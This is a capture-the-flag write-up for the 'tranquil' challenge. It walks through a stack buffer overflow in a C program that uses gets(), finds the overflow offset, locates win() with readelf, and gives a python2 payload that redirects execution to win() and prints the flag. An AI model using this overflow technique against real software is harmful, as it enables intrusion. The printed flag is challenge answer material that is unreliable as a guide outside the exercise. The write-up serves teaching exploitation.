 # tranquil

## Challenge:

Finally, [inner peace](https://files.actf.co/608874e08577f58044bd8dd1551a7b29c6945cfc58d7e1c35af1dc4e97213ab6/tranquil) - Master Oogway

[Source](https://files.actf.co/597e7ea4afea0e1fb28cb58e8ebe82447ada05fab44dd480992c49dcb8c36ae8/tranquil.c)

## Solution:

We have a binary and our C source code:

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int win(){
    char flag[128];
    FILE *file = fopen("flag.txt","r");
    if (!file) {
        printf("Missing flag.txt. Contact an admin if you see this on remote.");
        exit(1);
    }
    fgets(flag, 128, file);
    puts(flag);
}

int vuln(){
    char password[64];
    puts("Enter the secret word: ");
    gets(&password);
    if(strcmp(password, "password123") == 0){
        puts("Logged in! The flag is somewhere else though...");
    } else {
        puts("Login failed!");
    }
    return 0;
}

int main(){
    setbuf(stdout, NULL);
    setbuf(stderr, NULL);
    vuln();
    // not so easy for you!
    // win();
    return 0;
}
```

We’re given the password immediately, but it’s clear we need to get to the `win()` function. We should be able to abuse `gets()` to jump to the proper address.

We have a 64 character buffer. If we throw `A * 72` at it, we get a segmentation fault:

```bash
team8317@actf:/problems/2021/tranquil$ ./tranquil
Enter the secret word:
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Login failed!
Segmentation fault (core dumped)
```

At `A * 74` we begin to rewrite the instruction pointer. At `(A * 72) + (B * 3)` we completely clobber it.

Now we need to discover where our `win()` function begins and rewrite RIP to point to it.

We can use `readelf` to find the function:

```bash
team8317@actf:/problems/2021/tranquil$ readelf -s tranquil | grep win
    41: 0000000000401196   110 FUNC    GLOBAL DEFAULT   14 win
```

And now we pass in the location as part of our exploit payload:

```bash
team8317@actf:/problems/2021/tranquil$ python2 -c "print 'A'*71 + ';\x96\x11\x40'" | ./tranquil
Enter the secret word:
Login failed!
actf{time_has_gone_so_fast_watching_the_leaves_fall_from_our_instruction_pointer_864f647975d259d7a5bee6e1}

Segmentation fault (core dumped)
```

And our flag is dumped along with the core: `actf{time_has_gone_so_fast_watching_the_leaves_fall_from_our_instruction_pointer_864f647975d259d7a5bee6e1}`.
